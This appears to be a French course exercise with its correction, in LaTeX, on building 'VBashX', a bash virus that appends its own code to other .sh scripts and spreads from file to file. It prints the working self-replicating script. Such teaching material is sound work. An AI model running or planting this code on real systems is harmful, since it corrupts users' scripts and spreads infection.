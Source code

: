 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{1b)}] Tester : créer \texttt{cible1.sh} et \texttt{cible2.sh} (simples \texttt{echo}). Exécuter le virus, puis les cibles. Le code hôte s'exécute-t-il toujours ?

\item[\textbf{1c)}] Exécuter un fichier infecté. Que se passe-t-il ? Pourquoi ?
\end{enumerate}

\begin{correction}

\textbf{1a)} Le script suivant implémente un virus par ajout simple :
\begin{lstlisting}[title=vbashx\_phase1.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 1 ---
VIRUS_SIZE=7
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        tail -n $VIRUS_SIZE "$0" >> "$f"
    fi
done
\end{lstlisting}

\textbf{1b)} Après exécution du virus, les fichiers cibles contiennent leur code original suivi du code viral. Lorsqu'on exécute une cible, le code hôte s'exécute d'abord (les \texttt{echo} affichent leur message), puis le code viral s'exécute et propage l'infection aux autres fichiers \texttt{.sh}.

\textbf{1c)} Lorsqu'on exécute un fichier infecté, celui-ci propage le virus aux autres fichiers \texttt{.sh} du répertoire. C'est la \textbf{propagation de proche en proche} : chaque fichier infecté devient à son tour un vecteur d'infection.

\begin{attention}
Le virus souffre d'un problème majeur : il \textbf{réinfecte} les fichiers déjà infectés à chaque exécution. La taille des fichiers augmente indéfiniment. Ce problème sera résolu en Phase 2.
\end{attention}

\begin{pointcle}
\begin{itemize}
    \item \texttt{tail -n K \$0} permet l'\textbf{auto-extraction} du code viral depuis le fichier en cours d'exécution.
    \item L'opérateur \texttt{>>} ajoute en fin de fichier sans écraser le contenu existant.
    \item Le code viral s'exécute \textbf{après} le code hôte : le programme original reste fonctionnel.
    \item La valeur de \texttt{VIRUS\_SIZE} doit correspondre \textbf{exactement} au nombre de lignes du code viral (du commentaire de début au \texttt{done} final).
\end{itemize}
\end{pointcle}


\end{correction}
\end{exercice}
\end{document}
